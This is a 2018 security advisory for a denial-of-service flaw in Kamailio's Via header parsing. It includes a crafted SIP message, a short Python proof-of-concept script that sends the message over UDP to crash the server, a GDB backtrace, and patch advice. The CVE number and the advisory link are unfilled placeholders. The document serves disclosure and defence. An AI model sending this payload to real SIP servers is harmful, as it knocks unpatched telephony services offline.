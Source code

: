 ## Security vulnerability in Kamailio core related to Via header processing, denial of service possible.

- Author: Henning Westerholt <hw at skalatan.de>
- Fixed versions: Kamailio v5.1.4 and v5.0.7
- References: CVE-2018-XXXX
- Kamailio Security Advisory: https://www.kamailio.org/w/2018/03/TODO/
- Tested vulnerable versions: 5.1, 4.0, git master
- Timeline:
    - Report date: 2018-06-03
    - Kamailio patch: 2018-06-03
    - Kamailio release with patch: 2018-06-05
    - Security advisory: 2018-06-13

### Description

There exists a security vulnerability in the Kamailio core related to Via header processing. A specially crafted SIP message with several invalid `Via` headers causes a segmentation fault and crashes Kamailio. The reason is missing input validation in the `crcitt_string_array` core function for calculating a CRC hash for To tags.  An additional error is present in the `check_via_address` core function, this function also misses input validation.

### Impact

Abuse of this vulnerability leads to denial of service in Kamailio. Further research may show that exploitation leads to remote code execution. This vulnerability is rather old and will probably also apply to older versions of Kamailio and maybe even OpenSER.

### How to reproduce the issue

The following SIP message with several invalid `Via` header can be used to reproduce the vulnerability:


```
INVITE sip:0 SIP/2.0
To: 0
Viaa: SIP/2.0/UDP
V
Via:
Via: SIP/2.0/UDP :]
```

You can use this python script to reproduce the crash:

```
#!/usr/bin/env python
import socket
import sys

for _ in range(2):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.connect((sys.argv[1], int(sys.argv[2])))

    msg = "INVITE sip:0 SIP/2.0\n" \
        "To: 0\n" \
        "Viaa: SIP/2.0/UDP\n" \
        "V\n" \
        "Via:\n" \
        "Via: SIP/2.0/UDP :]\n" \
        "\r\n"
    sock.sendall(msg)
```

Run using:

```
python crash.py <ip> <port>
```

The expected result is a crash in Kamailio.

Notes: 

- authentication is not required
- crash happens in the first module that tries to construct a SIP reply caused by the bogus message
- SIP extension does not need to exist
- Message can be sent over TCP or UDP

### GDB backtrace result

An example for an backtrace caused by this crash in GDB:

```
Program received signal SIGSEGV, Segmentation fault.
0x00000000004e93ee in crcitt_string_array (dst=0x7ffff6373961 <sl_tag_buf+33> "", src=0x7fffffffaa20, size=2) at core/crc.c:239
239                             ccitt = UPDCIT( *c, ccitt );
(gdb) bt
#0  0x00000000004e93ee in crcitt_string_array (dst=0x7ffff6373961 <sl_tag_buf+33> "", src=0x7fffffffaa20, size=2) at core/crc.c:239
#1  0x00007ffff6162309 in calc_crc_suffix (msg=0x7ffff72c37c8, tag_suffix=0x7ffff6373961 <sl_tag_buf+33> "") at ../../core/tags.h:55
#2  0x00007ffff6162f5c in sl_reply_helper (msg=0x7ffff72c37c8, code=500, reason=0x7ffff63739e0 <err_buf> "I'm terribly sorry, server error occurred (1/SL)", tag=0x0) at sl_funcs.c:166
#3  0x00007ffff61644c3 in sl_send_reply (msg=0x7ffff72c37c8, code=500, reason=0x7ffff63739e0 <err_buf> "I'm terribly sorry, server error occurred (1/SL)") at sl_funcs.c:304
#4  0x00007ffff6164ca7 in sl_reply_error (msg=0x7ffff72c37c8) at sl_funcs.c:362
#5  0x00007ffff6168245 in w_sl_reply_error (msg=0x7ffff72c37c8, str=0x0, str2=0x0) at sl.c:233
#6  0x000000000043966a in do_action (h=0x7fffffffd120, a=0x7ffff7290970, msg=0x7ffff72c37c8) at core/action.c:1067
#7  0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff7290970, msg=0x7ffff72c37c8) at core/action.c:1565
#8  0x00000000004395d9 in do_action (h=0x7fffffffd120, a=0x7ffff72919b8, msg=0x7ffff72c37c8) at core/action.c:1058
#9  0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff728bef0, msg=0x7ffff72c37c8) at core/action.c:1565
#10 0x00000000004360c5 in do_action (h=0x7fffffffd120, a=0x7ffff72ac508, msg=0x7ffff72c37c8) at core/action.c:691
#11 0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff72ac098, msg=0x7ffff72c37c8) at core/action.c:1565
#12 0x00000000004360c5 in do_action (h=0x7fffffffd120, a=0x7ffff7287ba8, msg=0x7ffff72c37c8) at core/action.c:691
#13 0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff7282420, msg=0x7ffff72c37c8) at core/action.c:1565
#14 0x00000000004465c2 in run_top_route (a=0x7ffff7282420, msg=0x7ffff72c37c8, c=0x0) at core/action.c:1654
#15 0x000000000058908d in receive_msg (buf=0xa56a60 <buf> "INVITE sip:0 SIP/2.0\nTo: 0\nViaa: SIP/2.0/UDP\nV\nVia:\nVia: SIP/2.0/UDP :]", len=71, rcv_info=0x7fffffffd740) at core/receive.c:331
#16 0x000000000046ca74 in udp_rcv_loop () at core/udp_server.c:554
#17 0x00000000004253d1 in main_loop () at main.c:1432
#18 0x000000000042d631 in main (argc=17, argv=0x7fffffffdc68) at main.c:2650
```

This security issue was discovered through extensive SIP message fuzzing with [afl](http://lcamtuf.coredump.cx/afl/) and an internal toolset.

### Solutions and recommendations

Apply the patch from [github](https://github.com/kamailio/kamailio/commit/ad68e402ece8089f133c10de6ce319f9e28c0692) or make use of a release that includes that patch (e.g. 5.1.4 or 5.0.7). At the moment no workarounds (e.g. in the configuration) are known.

### About Henning Westerholt

[Henning Westerholt](https://skalatan.de/about) is a core developer of Kamailio since 2007. He provides consulting services for Kamailio in the performance, reliability and security areas.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
